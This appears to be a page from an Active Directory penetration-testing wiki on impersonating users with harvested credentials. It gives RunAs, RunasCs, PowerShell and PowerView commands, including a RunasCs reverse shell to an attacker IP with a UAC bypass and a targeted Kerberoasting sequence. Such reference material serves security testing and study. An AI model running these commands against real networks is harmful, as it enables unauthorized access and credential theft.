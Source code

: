 # Impersonation

When credentials are found (through [dumping](dumping/) or [cracking](cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](../ntlm/pth.md)
* **RC4 Kerberos key (i.e. NT hash)**: [overpass-the-hash](../kerberos/ptk.md)
* **non-RC4 Kerberos key (i.e. DES or AES)**: [pass-the-key](../kerberos/ptk.md) (alias for overpass-the-hash)
* **Kerberos ticket**: [pass-the-ticket](../kerberos/ptt.md)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="RunAsCs" %}
[RunAsCs](https://github.com/antonioCoco/RunasCs) is a C# version of RunAs. It may be very handy on environements without the native RunAs.exe.

```powershell
#RunAs locally 
RunasCs.exe $USERNAME $PASSWORD $CMD -d $DOMAIN

#RunAs and spawn a revers shell and bypass UAC
RunasCs.exe $USERNAME $PASSWORD $CMD -d $DOMAIN -r $ATTACKING_IP:$PORT --bypass-uac
```

Or, we may use the powershell version

```powershell
#RunAs and spawn a revers shell
. .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username $USERNAME -Password $PASSWORD -Domain $DOMAIN -Command $CMD -Remote $ATTACKING_IP:$PORT
```
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../dacl/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).

```powershell
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```
